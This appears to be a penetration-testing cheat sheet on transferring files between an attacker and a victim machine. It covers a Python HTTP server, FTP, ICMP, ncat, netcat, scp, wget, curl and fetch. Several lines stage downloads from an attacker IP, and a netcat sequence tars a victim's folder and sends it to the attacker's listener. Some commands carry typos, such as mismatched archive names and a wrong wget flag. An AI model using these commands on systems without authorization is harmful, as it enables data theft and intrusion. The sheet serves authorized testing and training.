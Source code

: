 - - -
### Python web-server

**<u>Attacker</u>** :
```sh
python3 -m http.server 80
```

**<u>victim</u>** :
```sh
wget http://OUR_IP:80/file -o output-file
```
<br>

- - -
### ICMP-File-Transfer :  ( PYTHON2 )
[https://github.com/Vidimensional/Icmp-File-Transfer](https://github.com/Vidimensional/Icmp-File-Transfer)


```sh
icmp.py recv <destination file>

icmp.py send <file to transfer> <remote address>
```
<br>

- - -
### FTP : 

**<u>Attacker</u>** : 
```sh
sudo apt-get install python-pyftpdlib  
python -m pyftpdlib -p 21 -u anonymous -P anonymous
```

**<u>Victim</u>** : 
```sh
victim : wget ftp://OUR_IP/File_name -o newfile
```
<br>

- - - 
### Ncat  :

**<u>Attacker</u>** : 
```sh
ncat -nv OUR_IP 443 --ssl < Outgoing_file
```

**<u>Victim</u>** : 
```sh
ncat -nvlp 443 --ssl > Incoming_file
```
<br>

- - -

### Sending the whole folder from target to our machine : 

**<u>Victim</u>** : 
```sh
tar -cvf folder.tar  folder
```

**<u>Attacker</u>** : 
```sh
nc -l -p 4456 > firefox.tgz
```

**<u>Victim</u>** : 
```sh
nc 'our_ip' 4456 < filder.tar
```

**<u>Attacker</u>** : 
```sh
tar xvf folder.tgz
```
<br>

- - - 

### SCP : 
Secure Copy (scp) 

**<u>Copy remote file to our kali</u>** : 
```sh
scp ramjai@192.168.0.10:<remote_file> /some/local/directory
```

**<u>Copy local file to target machine</u>** :
```sh
scp <local_file> your_username@192.168.0.10:/some/remote/directory
```

**<u>Copy local directory to target machine</u>** :
```sh
scp -r <local_dir> your_username@192.168.0.10:/tmp/<remote_dir>
```

**<u>Copy a file from one Target host to another</u>** :
```sh
scp your_username@<host1>:/some/remote/directory/foobar.txt your_username@<host2>:/some/remote/directory/
```

**<u>Improve scp performance (use blowfish)</u>** : 
```sh
scp -c blowfish <local_file> your_username@192.168.0.10:/some/remote/directory
```
<br>

- - -
### Downloading files : 

**<u>Wget</u>** : 
```sh
wget http://IP_ADDR/file -O /path/to/where/you/want/file/to/go
```

**<u>Curl</u>** : 
```sh
curl http://IP_ADDR/file  -O /path/to/where/you/want/file/to/go
```

**<u>Fetch</u>** : 
```sh
fetch http://IP_ADDR/file
```
<br>

- - -
